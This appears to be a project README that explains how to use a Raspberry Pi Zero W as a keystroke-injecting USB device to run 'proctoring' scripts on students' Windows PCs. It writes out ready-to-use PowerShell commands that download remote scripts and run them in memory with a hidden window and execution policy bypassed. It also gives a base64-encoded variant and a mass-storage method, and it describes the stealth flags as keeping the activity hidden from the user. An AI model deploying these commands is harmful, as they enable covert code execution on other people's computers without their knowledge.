 # 1. Fileless Execution

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

Using the Raspberry Pi Zero W, HID mode, keystroke can be sent to execute "Run". Following which, additional keystrokes command can be sent from the examples below to conduct proctoring.  

With the Fileless Execution method, we do not need to copy any external binary executable/scripts to be able to conduct proctoring. Instead we utilize a Windows built-in software Powershell, to download additional scripts and run them purely in memory. 

Reference materials:
- https://www.mcafee.com/enterprise/en-us/assets/solution-briefs/sb-fileless-malware-execution.pdf
- https://www.varonis.com/blog/fileless-malware
- https://www.linkedin.com/pulse/go-hell-powershell-powerdown-attacks-kirtar-oza-cissp-cisa-ms-

## 1.1. Utilizing DownloadString and Invoke-Expression Parameters
```
powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('<proctoring script url>')
```
Executing the above allow us conduct proctoring directly in to the memory of the Student's PC.  
This is possible because of two Powershell command 
- "DownloadString" where it does not download any file to disk but copies content of the remote file. 
- "Invoke-Expression a.k.a iex" where it runs specified string as a command.

## 1.2. Utilizing EncodedCommand Parameters
To do this we must first, encode our script into base64 using the script below and taking note of the encoded string
```
$command = '<the whole script>'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
write-host $encodedCommand
```
After we know the encoded string, runnning the command below will allow us to conduct proctoring without needing to drop any files into the student's PC. In this case, we would not even need to have a remote script stored anywhere.
```
powershell.exe -executionpolicy bypass -w hidden -e <base64encodedstring>
```
The EncodedCommand a.k.a -e, will read the following given as a base64 string and proceed to execute it 

## 1.3 Additional Parameters
- WindowStyle (-w) hidden: This makes the Powershell operation stealth by hiding the program window away from the user
- Exec Bypass: bypass/ignore the execution policy like _Restricted_ which restricts the PS command from running
- Noprofile (-nop): Ignore the commands in the Profile file

# 2. Mass Storage 

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

In this method we utilize the Mass storage mode and HID mode of the composite Pi.  
1. We will be placing in the backing store (storage) created in the Pi. 
2. Once the Pi is connected, the emulated mass storage will be visible.
3. Inside the storage device, the proctoring script will then be present.
4. From there, we can send in keystrokes using the HID mode to execute the script from Windows built in programs (such as cmd.exe or powershell.exe) inside the emulated mass storage device in the Student's PC
